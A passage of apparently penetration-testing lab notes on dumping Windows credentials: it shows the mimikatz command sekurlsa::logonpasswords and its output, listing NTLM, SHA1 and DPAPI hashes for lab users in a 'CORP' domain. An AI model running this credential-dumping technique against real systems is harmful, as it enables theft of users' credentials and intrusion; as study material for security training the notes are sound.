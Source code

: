 Now we can run **`sekurlsa::logonpasswords`** to dump the credentials of all logged-on users with the _Sekurlsa_ module
+ This should dump hashes for all users logged on to the current workstation or server, _including remote logins_ like Remote Desktop sessions
```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 4876838 (00000000:004a6a26)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/9/2022 12:32:11 PM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105
        msv :
         [00000003] Primary
         * Username : jeff
         * Domain   : CORP
         * NTLM     : 2688c6d2af5e9c7ddb268899123744ea
         * SHA1     : f57d987a25f39a2887d158e8d5ac41bc8971352f
         * DPAPI    : 3a847021d5488a148c265e6d27a420e6
        tspkg :
        wdigest :
         * Username : jeff
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
        cloudap :
...
Authentication Id : 0 ; 122474 (00000000:0001de6a)
Session           : Service from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/9/2022 1:32:23 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103
        msv :
         [00000003] Primary
         * Username : dave
         * Domain   : CORP
         * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
         * SHA1     : a0c2285bfad20cc614e2d361d6246579843557cd
         * DPAPI    : fed8536adc54ad3d6d9076cbc6dd171d
        tspkg :
        wdigest :
         * Username : dave
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : dave
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
        cloudap :
...
```
